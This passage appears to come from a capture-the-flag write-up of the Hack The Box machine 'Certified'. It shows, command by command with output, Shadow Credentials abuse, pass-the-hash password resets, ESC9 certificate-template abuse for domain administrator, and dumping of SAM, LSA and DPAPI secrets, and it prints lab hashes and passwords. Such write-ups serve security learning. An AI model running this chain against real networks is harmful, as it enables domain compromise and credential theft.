└─$ ~/opt/10_post_exploitation/pywhisker/pywhisker.py -d 'certified.htb' -u 'judith.mader' -p 'judith09' --target 'management_svc' --action 'list'
[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Listing devices for management_svc
[*] DeviceID: 93a11082-0b0c-077b-b807-01bf3b9cc7b4 | Creation Time (UTC): 2024-11-03 03:59:31.470139
[*] DeviceID: b2576336-3171-5002-b9b0-c9db8c9d8f5c | Creation Time (UTC): 2024-11-03 04:30:31.732290
[*] DeviceID: 84505112-4351-f527-58c9-54077aedc5aa | Creation Time (UTC): 2024-11-03 04:29:38.016493
```

Then we verified that we got the correct `DeviceID` to abuse the `GenericAll` permission on the user `ca_operator`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certified/files]
└─$ ~/opt/10_post_exploitation/pywhisker/pywhisker.py -d 'certified.htb' -u 'judith.mader' -p 'judith09' --target 'management_svc' --action 'info' --device-id 93a11082-0b0c-077b-b807-01bf3b9cc7b4
[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[+] Found device Id
<KeyCredential structure at 0x7f68a3d04650>
  | Owner: CN=management service,CN=Users,DC=certified,DC=htb
  | Version: 0x200
  | KeyID: qp8klFo94y6HB1gwGjUL6iXaCppsBzr/UpBr3/Y4Fs4=
  | KeyHash: 4fd98f56135fbb8add25d32bd4904e4e3a71a49f7ff2c88fb7a100fea4afe829
  | RawKeyMaterial: <dsinternals.common.cryptography.RSAKeyMaterial.RSAKeyMaterial object at 0x7f68a3d04860>
  |  | Exponent (E): 65537
  |  | Modulus (N): 0xb1522f047aa148613a1ef4d2422bcab888732190ab967cd431013d37a23e78695e14b32b1b2a5236c84d530d2ec5f755932907924ddf65a075bb84be8dde5990f3f31ee525c345a76d558d707993ec1ef7ed9589fb36e128d8301bf303b4ad7201bf3759eb3c426cf1fbc2615de347eb01bda700881ef0186bd23b000ec2a9b8dc59f44f68bcd5cee1eee34fff0baedf6f58818d8c6618251a21c971a9461fcbdfd8aeb0b35c4eef60af370ddff00acbf84b6264ac04032989bac203ba72a7b7e4894495c9d4ec27822a80d111412b1bc792e5a3fefcab497390a95e9314bcaa78dc6d04d34be82f981619478b779f88662f1954510df5d219f425d11f01645d
  |  | Prime1 (P): 0x0
  |  | Prime2 (Q): 0x0
  | Usage: KeyUsage.NGC
  | LegacyUsage: None
  | Source: KeySource.AD
  | DeviceId: 93a11082-0b0c-077b-b807-01bf3b9cc7b4
  | CustomKeyInfo: <CustomKeyInformation at 0x7f68a3cf46e0>
  |  | Version: 1
  |  | Flags: KeyFlags.NONE
  |  | VolumeType: None
  |  | SupportsNotification: None
  |  | FekKeyVersion: None
  |  | Strength: None
  |  | Reserved: None
  |  | EncodedExtendedCKI: None
  | LastLogonTime (UTC): 2024-11-03 03:59:31.470139
  | CreationTime (UTC): 2024-11-03 03:59:31.470139
```



To perform the next step is was necessary to fix the `pyOpenSSL`  version to make `pyWhisker` work for the `Shadow Credentials Attack`. There fore we updated the `requirements.txt` and installed them by using the `--break-system-packages` flag. This is not recommended! You should use a `virtual environment` for stuff like this if you are not working on a `fire-and-forget-system`.

```c
┌──(kali㉿kali)-[~/opt/10_post_exploitation/pywhisker]
└─$ cat requirements.txt
impacket
pyOpenSSL==24.0.0
cryptography
six
pyasn1
ldap3
ldapdomaindump
rich
setuptools
dsinternals
```

```c
┌──(kali㉿kali)-[~/opt/10_post_exploitation/pywhisker]
└─$ pip3 install -r requirements.txt --break-system-packages
Defaulting to user installation because normal site-packages is not writeable
Requirement already satisfied: impacket in /usr/lib/python3/dist-packages (from -r requirements.txt (line 1)) (0.12.0)
Collecting pyOpenSSL==24.0.0 (from -r requirements.txt (line 2))
  Using cached pyOpenSSL-24.0.0-py3-none-any.whl.metadata (12 kB)
Requirement already satisfied: cryptography in /usr/lib/python3/dist-packages (from -r requirements.txt (line 3)) (43.0.0)
Requirement already satisfied: six in /usr/lib/python3/dist-packages (from -r requirements.txt (line 4)) (1.16.0)
Requirement already satisfied: pyasn1 in /usr/lib/python3/dist-packages (from -r requirements.txt (line 5)) (0.6.0)
Requirement already satisfied: ldap3 in /usr/lib/python3/dist-packages (from -r requirements.txt (line 6)) (2.9.1)
Requirement already satisfied: ldapdomaindump in /usr/lib/python3/dist-packages (from -r requirements.txt (line 7)) (0.9.4)
Requirement already satisfied: rich in /usr/lib/python3/dist-packages (from -r requirements.txt (line 8)) (13.7.1)
Requirement already satisfied: setuptools in /usr/lib/python3/dist-packages (from -r requirements.txt (line 9)) (74.1.2)
Requirement already satisfied: dsinternals in /usr/lib/python3/dist-packages (from -r requirements.txt (line 10)) (1.2.4)
Collecting cryptography (from -r requirements.txt (line 3))
  Using cached cryptography-42.0.8-cp39-abi3-manylinux_2_28_x86_64.whl.metadata (5.3 kB)
Requirement already satisfied: pyasn1_modules in /usr/lib/python3/dist-packages (from impacket->-r requirements.txt (line 1)) (0.4.1)
Requirement already satisfied: pycryptodomex in /usr/lib/python3/dist-packages (from impacket->-r requirements.txt (line 1)) (3.20.0)
Requirement already satisfied: flask>=1.0 in /usr/lib/python3/dist-packages (from impacket->-r requirements.txt (line 1)) (3.0.3)
Requirement already satisfied: charset_normalizer in /usr/lib/python3/dist-packages (from impacket->-r requirements.txt (line 1)) (3.4.0)
Requirement already satisfied: cffi>=1.12 in /usr/lib/python3/dist-packages (from cryptography->-r requirements.txt (line 3)) (1.17.1)
Requirement already satisfied: markdown-it-py>=2.2.0 in /usr/lib/python3/dist-packages (from rich->-r requirements.txt (line 8)) (3.0.0)
Requirement already satisfied: pygments<3.0.0,>=2.13.0 in /usr/lib/python3/dist-packages (from rich->-r requirements.txt (line 8)) (2.18.0)
Requirement already satisfied: pycparser in /usr/lib/python3/dist-packages (from cffi>=1.12->cryptography->-r requirements.txt (line 3)) (2.22)
Requirement already satisfied: Werkzeug>=3.0.0 in /usr/lib/python3/dist-packages (from flask>=1.0->impacket->-r requirements.txt (line 1)) (3.0.4)
Requirement already satisfied: Jinja2>=3.1.2 in /usr/lib/python3/dist-packages (from flask>=1.0->impacket->-r requirements.txt (line 1)) (3.1.3)
Requirement already satisfied: itsdangerous>=2.1.2 in /usr/lib/python3/dist-packages (from flask>=1.0->impacket->-r requirements.txt (line 1)) (2.2.0)
Requirement already satisfied: click>=8.1.3 in /usr/lib/python3/dist-packages (from flask>=1.0->impacket->-r requirements.txt (line 1)) (8.1.7)
Requirement already satisfied: blinker>=1.6.2 in /usr/lib/python3/dist-packages (from flask>=1.0->impacket->-r requirements.txt (line 1)) (1.8.2)
Requirement already satisfied: mdurl~=0.1 in /usr/lib/python3/dist-packages (from markdown-it-py>=2.2.0->rich->-r requirements.txt (line 8)) (0.1.2)
Requirement already satisfied: MarkupSafe>=2.1.1 in /usr/lib/python3/dist-packages (from Werkzeug>=3.0.0->flask>=1.0->impacket->-r requirements.txt (line 1)) (2.1.5)
Using cached pyOpenSSL-24.0.0-py3-none-any.whl (58 kB)
Using cached cryptography-42.0.8-cp39-abi3-manylinux_2_28_x86_64.whl (3.9 MB)
Installing collected packages: cryptography, pyOpenSSL
ERROR: pip's dependency resolver does not currently take into account all the packages that are installed. This behaviour is the source of the following dependency conflicts.
mitmproxy 11.0.0 requires mitmproxy-rs<0.10,>=0.9.1, which is not installed.                                                                                                                                                                
patator 1.0 requires psycopg2-binary, which is not installed.                                                                                                                                                                               
patator 1.0 requires pysqlcipher3, which is not installed.                                                                                                                                                                                  
ivre 0.9.21+kali requires pymongo>=3.7, which is not installed.                                                                                                                                                                             
unblob 24.9.30 requires arpy<3.0.0,>=2.3.0, but you have arpy 1.1.1 which is incompatible.                                                                                                                                                  
unblob 24.9.30 requires dissect.cstruct<5.0,>=2.0, but you have dissect-cstruct 0.0.0 which is incompatible.                                                                                                                                
unblob 24.9.30 requires jefferson<0.5.0,>=0.4.5, but you have jefferson 0.4.3 which is incompatible.                                                                                                                                        
unblob 24.9.30 requires lz4<5.0.0,>=4.3.2, but you have lz4 4.0.2+dfsg which is incompatible.                                                                                                                                               
unblob 24.9.30 requires ubi-reader<0.9.0,>=0.8.9, but you have ubi-reader 0.8.5 which is incompatible.                                                                                                                                      
unblob 24.9.30 requires unblob-native<0.2.0,>=0.1.1, but you have unblob-native 0.0.0 which is incompatible.                                                                                                                                
sslyze 6.0.0 requires pydantic<2.7,>=2.2, but you have pydantic 2.9.2 which is incompatible.                                                                                                                                                
sslyze 6.0.0 requires tls-parser<3,>=2, but you have tls-parser 1.2.2 which is incompatible.                                                                                                                                                
bloodyad 2.0.7 requires msldap>=0.5.12, but you have msldap 0.5.10 which is incompatible.                                                                                                                                                   
faradaysec 5.7.0 requires bidict==0.22.0, but you have bidict 0.23.1 which is incompatible.                                                                                                                                                 
faradaysec 5.7.0 requires cvss>=2.5, but you have cvss 2.4 which is incompatible.                                                                                                                                                           
faradaysec 5.7.0 requires Flask-Limiter<1.4.0,>=1.3.1, but you have flask-limiter 3.8.0 which is incompatible.                                                                                                                              
faradaysec 5.7.0 requires Flask-WTF<=1.0.1,>=0.15.1, but you have flask-wtf 1.2.1 which is incompatible.                                                                                                                                    
faradaysec 5.7.0 requires psycogreen>=1.0.2, but you have psycogreen 1.0.1 which is incompatible.                                                                                                                                           
faradaysec 5.7.0 requires werkzeug<2.1.0,>=1.0.0, but you have werkzeug 3.0.4 which is incompatible.                                                                                                                                        
mitmproxy 11.0.0 requires protobuf<=5.28.2,>=5.27.2, but you have protobuf 4.21.12 which is incompatible.                                                                                                                                   
mitmproxy 11.0.0 requires pyperclip<=1.9.0,>=1.9.0, but you have pyperclip 1.8.2 which is incompatible.                                                                                                                                     
dploot 3.0.0 requires lxml==4.9.3, but you have lxml 5.3.0 which is incompatible.                                                                                                                                                           
awscli 2.17.3 requires awscrt<=0.20.11,>=0.19.18, but you have awscrt 1.0.0.dev0 which is incompatible.                                                                                                                                     
awscli 2.17.3 requires distro<1.9.0,>=1.5.0, but you have distro 1.9.0 which is incompatible.                                                                                                                                               
awscli 2.17.3 requires docutils<0.20,>=0.10, but you have docutils 0.21.2 which is incompatible.                                                                                                                                            
awscli 2.17.3 requires prompt-toolkit<3.0.39,>=3.0.24, but you have prompt-toolkit 3.0.48 which is incompatible.                                                                                                                            
awscli 2.17.3 requires python-dateutil<=2.8.2,>=2.1, but you have python-dateutil 2.9.0 which is incompatible.                                                                                                                              
awscli 2.17.3 requires ruamel.yaml<=0.17.21,>=0.15.0, but you have ruamel-yaml 0.18.6 which is incompatible.                                                                                                                                
awscli 2.17.3 requires ruamel.yaml.clib<=0.2.7,>=0.2.0, but you have ruamel-yaml-clib 0.2.8 which is incompatible.                                                                                                                          
awscli 2.17.3 requires urllib3<1.27,>=1.25.4, but you have urllib3 2.0.7 which is incompatible.                                                                                                                                             
hekatomb 1.5.2.3 requires impacket<0.11.0,>=0.10.0, but you have impacket 0.12.0 which is incompatible.                                                                                                                                     
Successfully installed cryptography-42.0.8 pyOpenSSL-24.0.0
```

After we fixed `pyWhisker` we attacked the user `management_svc` by creating the `.pfx` file aka `certificate`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certified/files]
└─$ ~/opt/10_post_exploitation/pywhisker/pywhisker.py -d 'certified.htb' -u 'judith.mader' -p 'judith09' --target 'management_svc' --action 'add' --filename management_svc
[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: d17e83e0-2532-ff77-4a2f-9692cb30a81b
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: management_svc.pfx
[*] Must be used with password: 9WJrIxxtAw0c1r0A1nVq
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

With the `certificate` in our hands we grabbed ourselves a `Kerberos Ticket` as well as the `key` from `minikerberos` and `exported` it to our session.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certified/files]
└─$ ~/opt/10_post_exploitation/PKINITtools/gettgtpkinit.py certified.htb/management_svc -cert-pfx management_svc.pfx -pfx-pass '9WJrIxxtAw0c1r0A1nVq' management_svc.ccache 
2024-11-03 15:38:53,540 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2024-11-03 15:38:53,565 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2024-11-03 15:39:17,707 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2024-11-03 15:39:17,708 minikerberos INFO     27637cd3370a9eb3b6ced8aee19404ce65c0f988947104f704003b4b04209d39
INFO:minikerberos:27637cd3370a9eb3b6ced8aee19404ce65c0f988947104f704003b4b04209d39
2024-11-03 15:39:17,720 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certified/files]
└─$ export KRB5CCNAME=management_svc.ccache
```

With all that prepared it was time to get the `NT Hash` of `management_svc` which was required to `escalate privileges` even further to the user `ca_operator` and to follow along the `attack path`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certified/files]
└─$ ~/opt/10_post_exploitation/PKINITtools/getnthash.py certified.htb/management_svc -key 27637cd3370a9eb3b6ced8aee19404ce65c0f988947104f704003b4b04209d39        
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
a091c1832bcdd4677c28b5a6a1295584
```

| NT Hash                          |
| -------------------------------- |
| a091c1832bcdd4677c28b5a6a1295584 |

### Privilege Escalation to ca_operator

Now since we got the `NT Hash` of `management_svc` we finally could make use of the `GenericAll` permission and `set a new password` for the user `ca_operator`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certified/files]
└─$ pth-net rpc password 'ca_operator' 'P@ssw0rd!' -U 'certified.htb'/'management_svc'%'a091c1832bcdd4677c28b5a6a1295584':'a091c1832bcdd4677c28b5a6a1295584' -S 'dc01.certified.htb'
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
```

| Username    | Password  |
| ----------- | --------- |
| ca_operator | P@ssw0rd! |

## Privilege Escalation to SYSTEM

### Active Directory Certificate Services (AD CS)

Since we had gained access to the user `ca_operator` which indicated a potential `Active Directory Certificate Services (ADCS)` abuse, we first verified if there was a `Certificate Authority (CA)` running.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certified/files]
└─$ netexec ldap 10.129.179.224 -u 'judith.mader' -p 'judith09' -M adcs                                              
SMB         10.129.179.224  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
LDAP        10.129.179.224  389    DC01             [+] certified.htb\judith.mader:judith09 
ADCS        10.129.179.224  389    DC01             [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.129.179.224  389    DC01             Found PKI Enrollment Server: DC01.certified.htb
ADCS        10.129.179.224  389    DC01             Found CN: certified-DC01-CA
```

After that step we started looking for `vulnerable templates` using `certipy-ad`. It showed that the template `CertifiedAuthentication` was vulnerable to `ESC9` which described `missing security extensions`.

- [https://posts.specterops.io/certified-pre-owned-d95910965cd2](https://posts.specterops.io/certified-pre-owned-d95910965cd2)

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certified/files]
└─$ certipy-ad find -dc-ip 10.129.179.224 -u 'ca_operator' -p 'P@ssw0rd!' -vulnerable -stdout 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'certified-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'certified-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'certified-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'certified-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : certified-DC01-CA
    DNS Name                            : DC01.certified.htb
    Certificate Subject                 : CN=certified-DC01-CA, DC=certified, DC=htb
    Certificate Serial Number           : 36472F2C180FBB9B4983AD4D60CD5A9D
    Certificate Validity Start          : 2024-05-13 15:33:41+00:00
    Certificate Validity End            : 2124-05-13 15:43:41+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : CERTIFIED.HTB\Administrators
      Access Rights
        ManageCertificates              : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        ManageCa                        : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Enroll                          : CERTIFIED.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CertifiedAuthentication
    Display Name                        : Certified Authentication
    Certificate Authorities             : certified-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDirectoryPath
                                          SubjectAltRequireUpn
    Enrollment Flag                     : NoSecurityExtension
                                          AutoEnrollment
                                          PublishToDs
    Private Key Flag                    : 16842752
    Extended Key Usage                  : Server Authentication
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFIED.HTB\operator ca
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : CERTIFIED.HTB\Administrator
        Write Owner Principals          : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
        Write Dacl Principals           : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
        Write Property Principals       : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
    [!] Vulnerabilities
      ESC9                              : 'CERTIFIED.HTB\\operator ca' can enroll and template has no security extension
```

#### ESC9: No Security Extensions

There was a lot of resources already available to it and we just followed along the steps described in the article.

- [https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7?gi=d79f75893582](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7?gi=d79f75893582)
- [https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/10_post_exploitation.md#esc9-no-security-extensions](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/10_post_exploitation.md#esc9-no-security-extensions)

First of all we pointed the `User Principal Name (UPN)` to `Administrator`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certified/files]
└─$ certipy-ad account update -username management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : Administrator
[*] Successfully updated 'ca_operator'
```

Then we just added the name of the `Certificate Authority (CA)` to our `/etc/hosts`file and `synced the time` with the `Domain Controller`.

```c
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.179.224  certified.htb
10.129.179.224  dc01.certified.htb
10.129.179.224  certified-DC01-CA
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certified/files]
└─$ sudo ntpdate 10.129.179.224                                                                                                                          
2024-11-03 17:34:52.093797 (+0100) +0.045268 +/- 0.009030 10.129.179.224 s1 no-leap
```

Now we performed a new `request` for the template `CertifiedAuthentication` which saved the `administrator.pfx` on our local machine.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certified/files]
└─$ certipy-ad req -username ca_operator@certified.htb -p 'P@ssw0rd!' -ca certified-DC01-CA -template CertifiedAuthentication
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 7
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Next step was the `account update` for the user `management_svc`, `ca_operator` and the `administrator`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certified/files]
└─$ certipy-ad account update -username management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn administrator@certified.htb  
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : administrator@certified.htb
[*] Successfully updated 'ca_operator'
```

After this step was done we just authenticated using the `administrator.pfx` certificate and got the `hash` for `administrator`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certified/files]
└─$ certipy-ad auth -pfx administrator.pfx -domain certified.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```

```c
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i certified.htb -u administrator -H 0d5b49608bbce1751f708748f67e2d34
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

## user.txt

```c
*Evil-WinRM* PS C:\Users\management_svc\Desktop> type user.txt
534ec0ede9950b10c2d58e0d1f467565
```

## root.txt

```c
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
8658d6bff97594ba69351f7beab4c91e
```

## Post Exploitation

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.179.224 -u administrator -H 0d5b49608bbce1751f708748f67e2d34 --sam --lsa --dpapi
SMB         10.129.179.224  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.129.179.224  445    DC01             [+] certified.htb\administrator:0d5b49608bbce1751f708748f67e2d34 (Pwn3d!)
SMB         10.129.179.224  445    DC01             [*] Dumping SAM hashes
SMB         10.129.179.224  445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34:::
SMB         10.129.179.224  445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.179.224  445    DC01             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[17:44:42] ERROR    SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.                                                                                                 secretsdump.py:1435
SMB         10.129.179.224  445    DC01             [+] Added 3 SAM hashes to the database
SMB         10.129.179.224  445    DC01             [+] Dumping LSA secrets
SMB         10.129.179.224  445    DC01             CERTIFIED\DC01$:aes256-cts-hmac-sha1-96:9d7b5d3f2a19dbc9ba1fdc30868f6785fa1ed4af4f926c15f2582d0e62c1fa8b
SMB         10.129.179.224  445    DC01             CERTIFIED\DC01$:aes128-cts-hmac-sha1-96:d847be4c23d527272a37955bfd62ecce
SMB         10.129.179.224  445    DC01             CERTIFIED\DC01$:des-cbc-md5:7cf78f2373fd5dad
SMB         10.129.179.224  445    DC01             CERTIFIED\DC01$:plain_password_hex:eddff1eaf0fdece3db4133706a6ad89c44fae7062134287efdbe14fd60166c686fe91ba3c58187a690ff9416c6399bd5da46ca4b6b6d032ca6c42fbd6a1943de5a17bd9aa5faf7c630c591c46fc52a10c2366eb471705dbd0686658655928d2161a7f799e2cb5834a15cbb48943f4fcad34cded52281a6f6f466bfbc0a386a52fca1e7549ea7aebf01f7de588bec0d4b697ede0092115f2cbe99b7e8c44ddd1715dd1243b445cbe3a66133c2dd8bf93205c414ed4dc647289f40dbee0f20101e154193bae7a66edb07c916eb095016f17cfcd230a9eca7956e2343fed987dd71aacdee9a2091e0d4b7b72e5644c2ec61
SMB         10.129.179.224  445    DC01             CERTIFIED\DC01$:aad3b435b51404eeaad3b435b51404ee:8f3cbea3908ffcde111e6a077c37dac4:::
SMB         10.129.179.224  445    DC01             (Unknown User):sh4rQoa0USkwJBLV
SMB         10.129.179.224  445    DC01             dpapi_machinekey:0xdc8ad5f7ad02952a1da8dc406fba14a7b2b04ee9
dpapi_userkey:0x9ded1f864954f0636a865202e9e8859e86a9d3d3
SMB         10.129.179.224  445    DC01             NL$KM:ff36c427b9daab16d7a0d691b159338c899ec8f983a9be385292cdc2fead094c083014dde159508ae3a82e2939ee09672eeafb175c4995d061a2bc793fe8bd7a
SMB         10.129.179.224  445    DC01             [+] Dumped 8 LSA secrets to /home/kali/.nxc/logs/DC01_10.129.179.224_2024-11-03_174434.secrets and /home/kali/.nxc/logs/DC01_10.129.179.224_2024-11-03_174434.cached
SMB         10.129.179.224  445    DC01             [+] User is Domain Administrator, exporting domain backupkey...
SMB         10.129.179.224  445    DC01             [*] Collecting User and Machine masterkeys, grab a coffee and be patient...
SMB         10.129.179.224  445    DC01             [+] Got 7 decrypted masterkeys. Looting secrets...
SMB         10.129.179.224  445    DC01             [-] No secrets found
```
